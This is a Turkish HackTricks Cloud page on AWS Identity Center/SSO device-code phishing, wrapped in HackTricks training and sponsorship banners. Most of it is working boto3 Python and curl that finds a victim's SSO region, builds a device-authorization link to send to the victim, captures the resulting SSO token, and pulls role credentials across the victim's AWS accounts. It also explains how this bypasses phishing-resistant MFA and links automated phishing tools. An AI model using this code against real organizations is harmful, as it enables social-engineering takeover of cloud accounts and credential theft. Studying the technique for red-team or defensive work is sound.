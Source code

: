 # AWS - Kimlik Merkezi & SSO Yetkisiz Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## AWS Cihaz Kodu Phishing

[**bu blog yazısında**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) ilk olarak önerildiği gibi, AWS SSO kullanarak bir kullanıcıya bir **bağlantı** göndermek mümkündür; eğer **kullanıcı kabul ederse**, saldırgan **kullanıcıyı taklit etmek için bir token** alabilir ve kullanıcının **Kimlik Merkezi**'nde erişebileceği tüm rollere erişebilir.

Bu saldırıyı gerçekleştirmek için gereksinimler şunlardır:

* Kurbanın **Kimlik Merkezi**'ni kullanması gerekir
* Saldırgan, kurbanın kullandığı **alt alan adını** bilmelidir `<victimsub>.awsapps.com/start`

Yalnızca önceki bilgilerle, **saldırgan kullanıcıya bir bağlantı gönderebilir**; eğer **kabul edilirse**, **saldırgana AWS kullanıcı** hesabına erişim verecektir.

### Saldırı

1. **Alt alan adını bulma**

Saldırganın ilk adımı, kurban şirketinin Kimlik Merkezi'nde kullandığı alt alan adını bulmaktır. Bu, **OSINT** veya **tahmin + BF** ile yapılabilir, çünkü çoğu şirket burada adını veya adının bir varyasyonunu kullanacaktır.

Bu bilgiyle, Kimlik Merkezi'nin yapılandırıldığı bölgeyi almak mümkündür:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Kurban için bağlantıyı oluşturun ve gönderin**

Kurbanın kimlik doğrulaması yapabilmesi için bir AWS SSO giriş bağlantısı oluşturmak üzere aşağıdaki kodu çalıştırın.\
Demo için, bu kodu bir python konsolunda çalıştırın ve çıkmayın çünkü daha sonra token almak için bazı nesnelere ihtiyacınız olacak:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Gönderilen bağlantıyı kurbanın sosyal mühendislik becerilerinizi kullanarak iletin!

3. **Kurbanın kabul etmesini bekleyin**

Eğer kurban **zaten AWS'de oturum açmışsa**, sadece izinleri vermeyi kabul etmesi gerekecek; eğer oturum açmamışsa, **oturum açması ve ardından izinleri vermeyi kabul etmesi** gerekecek.\
İşte günümüzdeki istemin görünümü:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO erişim token'ını alın**

Eğer kurban istemi kabul ettiyse, **kullanıcıyı taklit ederek bir SSO token'ı oluşturmak için bu kodu çalıştırın**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO erişim belirteci **8 saat geçerlidir**.

5. **Kullanıcıyı taklit et**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Önceki saldırının **"unphisable MFA" (webAuth) kullanılsa bile çalıştığını** bilmek eğlenceli. Bunun nedeni, önceki **iş akışının kullanılan OAuth alanını asla terk etmemesidir**. Kullanıcının giriş alanını değiştirmesi gereken diğer phishing saldırılarının aksine, cihaz kodu iş akışı, **bir kodun bir cihaz tarafından bilindiği** şekilde hazırlanmıştır ve kullanıcı farklı bir makinede bile giriş yapabilir. İstemi kabul ederse, cihaz, sadece **ilk kodu bilerek**, kullanıcının **kimlik bilgilerini** **geri alabilecektir**.

Daha fazla bilgi için [**bu gönderiye göz atın**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
